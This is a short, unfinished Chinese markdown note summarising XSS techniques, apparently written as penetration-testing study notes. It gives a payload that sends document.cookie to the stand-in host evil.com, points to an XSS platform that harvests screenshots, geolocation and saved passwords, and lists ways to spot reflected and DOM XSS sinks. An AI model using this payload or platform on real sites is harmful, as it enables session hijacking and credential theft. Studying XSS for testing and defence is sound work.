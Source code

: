 ## XSS知识总结

### 1.XSS利用技巧
1. 利用XSS远程窃取Cookie敏感信息：
	`eval(‘new Image().src=“http://www.evil.com/steal.php?c=“+escape(document.cookie)')
`

2. XSS平台：https://xsspt.com/index.php?do=user&act=seting  

	XSS平台，提供多种攻击利用的模块，通过自动生成代码利用：  
	1. JS攻击  
	2. 经纬度获取  
	3. 获取网页截屏 
	4. 获取保存的明文密码

### 2.XSS发现技巧
1. 反射型xss查找技巧：  

	反射型XSS如果知道URL中的参数，再进行渗透测试时，直接对参数进行遍历即可发现存在XSS漏洞的参数。针对没有明显显示参数的请求，进行反射型XSS时，则需要一些特殊手段，去查找可能存在问题的参数。  
	1. 针对DOM型的反射型XSS，寻找需要利用一些技巧，一般都需要存在document.write()、innerHtml= 等。  
	2. 检查响应的JS文件，存在document.getElementByID()、document.getElementByName()操作的参数   
	3. input类型输入框参数的尝试：当检查input输入框HTML源代码，当存在value属性时，意味着开发者可能想自动填充该值，可能存在反射型xss。   
	可能存在问题的写法：  
	`<input id="phoneType" class="inputType" type="text" maxlength="30" value="">`  
	一般的写法：  
	`<input id="telephone" class="inputType" type="text" maxlength="20">`
	经过验证，存在value属性的input，会自动填充值：  
	`<input id="phoneType" class="inputType" type="text" maxlength="30" value="js_attack">`  
	
		

3. going on...